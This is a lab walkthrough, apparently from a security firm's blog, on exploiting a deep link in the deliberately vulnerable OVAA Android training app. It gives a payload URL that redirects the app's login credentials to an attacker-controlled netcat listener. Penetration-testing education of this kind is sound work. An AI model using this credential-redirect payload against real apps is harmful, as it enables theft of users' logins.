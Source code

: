 Exploiting deep links requires an understanding of how the application processes the deep link data. First, decompile the `ovaa.apk` using `jadx-gui` and then locate the `oversecured.ovaa.activities.DeeplinkActivity`. The code should look like the picture below:

![image](https://github.com/user-attachments/assets/3a159107-8c8f-4d5a-a0da-d39873f5994e)

As you can see, there are four different `pathPrefix` that are being processed. We will analyze each one of them later. For this challenge, we will focus on the `pathPrefix /login`. In this `pathPrefix`, the application takes the URL parameter from the deep link and assigns it to the `LOGIN_URL_KEY` using `this.loginUtils.setLoginUrl(url2)` if the URL parameter is not null. After that, it starts an activity named `EntranceActivity`.

![image](https://github.com/user-attachments/assets/c656d290-a966-4662-b6bf-88830fe6c569)


Going into that activity, we can see it is checking if we have already logged in or not. If not, it starts another activity `LoginActivity`.

![image](https://github.com/user-attachments/assets/b4b19a2a-ff1c-4620-bbff-a53fb50a8507)


Line 63 of `LoginActivity` is starting a `LoginService` that sends the login credentials to the `LOGIN_URL_KEY`. Since the `LOGIN_URL_KEY` is controlled by the user, we can provide the URL which we have access to and then sniff the credentials.

Let’s open a netcat connection to listen to the interface to which the emulator is connected:

**Payload**:
```
oversecured://ovaa/login?url=http://192.168.56.1:9001
```

Open a web browser and paste this link. It should redirect you to a login page. After a few seconds, the netcat will receive a POST request that contains the credentials.

![image](https://github.com/user-attachments/assets/a4f0273c-0abb-4333-bc30-711d5597b184)

OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform’s known and popular security vulnerabilities.

## Table of Contents
- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
  1. [Leakage of Credentials via Installation of an Arbitrary URL](#1-leakage-of-credentials-via-installation-of-an-arbitrary-url)
  2. [Obtaining Access to Arbitrary Non-Exported Content Providers](#2-obtaining-access-to-arbitrary-non-exported-content-providers)
  3. [Bypass Host Validation in Deeplink](#3-bypass-host-validation-in-deeplink)
  4. [Exfiltrate Sensitive Data via Deeplink by Making Use of the Vulnerable WebView Setting](#4-exfiltrate-sensitive-data-via-deeplink-by-making-use-of-the-vulnerable-webview-setting)
  5. [Acquiring Access to Protected Activity Using Intent Redirection](#5-acquiring-access-to-protected-activity-using-intent-redirection)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)
- [References](#references)
- [About Payatu](#about-payatu)
